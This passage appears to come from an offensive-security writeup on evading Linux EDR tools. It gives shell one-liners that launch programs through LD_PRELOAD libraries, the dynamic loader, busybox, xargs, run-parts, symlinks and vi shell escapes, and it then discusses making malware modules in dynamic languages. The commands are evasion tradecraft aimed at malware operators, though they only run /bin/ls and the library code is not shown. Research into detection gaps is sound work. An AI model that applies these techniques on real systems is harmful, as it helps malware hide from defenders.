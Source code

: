 ```sh
$LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so echo | xargs /bin/ls

$ echo | LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  xargs /bin/ls
```
Anyone looking for specific regex will be disappointed.


Example of even more advanced evasion:

1.Find action on executables to preload

```sh
$LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  run-parts  --regex '^main_.*$' ./bin/
```

2.Double link evasion

```sh
$ mkdir /tmp/shadowrun; ln -s /bin/ls /tmp/shadowrun/ls; LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  run-parts   /tmp/shadowrun/
```

3.Chaining evasion, timed triggers

```sh
echo | LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox  xargs /bin/busybox xargs xargs /bin/busybox /bin/ls

echo | LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox timeout 1000 /bin/ls

echo | LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2 /bin/busybox time /bin/ls
```

4.Evade via TTY switch
ProTip: you _may_ evade EDRs when you switch TTYs

```sh
vi -ensX $(/lib64/ld-linux-x86-64.so.2 /bin/busybox mktemp)  -c ':1,$d' -c ':silent !/bin/ls'  -c ':wq'

$LD_PRELOAD=./lib/libweakref.so:./lib/libweakref2.so /lib64/ld-linux-x86-64.so.2  vi -ensX $(/bin/busybox mktemp)  -c ':1,$d' -c ':silent !/bin/ls'  -c ':wq'
```

#### 0x1: Hiding Behind Reflective Mirrors

So by now we've hopefully evaded EDR watchful eyes by jumping around the various decoys and preloads. Another evasion vector that really comes out of necessity for rapid prototyping and development of modular malware rather than EDR evasion as a primary goal - is interfacing with higher level code.

Let’s face it: development in C _can be_ slower and error prone for some, ant it also requires compilation. While it is a great system language, offensive operators often need to retool quickly as their circumstances onthe target box change. It’s just the reality of operating malware nowadays. Self-upgrades, better evasion, etc. So, one of the paths that may serve both goals: evasion and rapid prototyping of new features, etc. is to see how we can extend the modularity of our malware modules to dynamic languages that have decent FFI (Foreign function interface) with C and that could create shared libraries that we can use in the type of preloads we have discussed before.
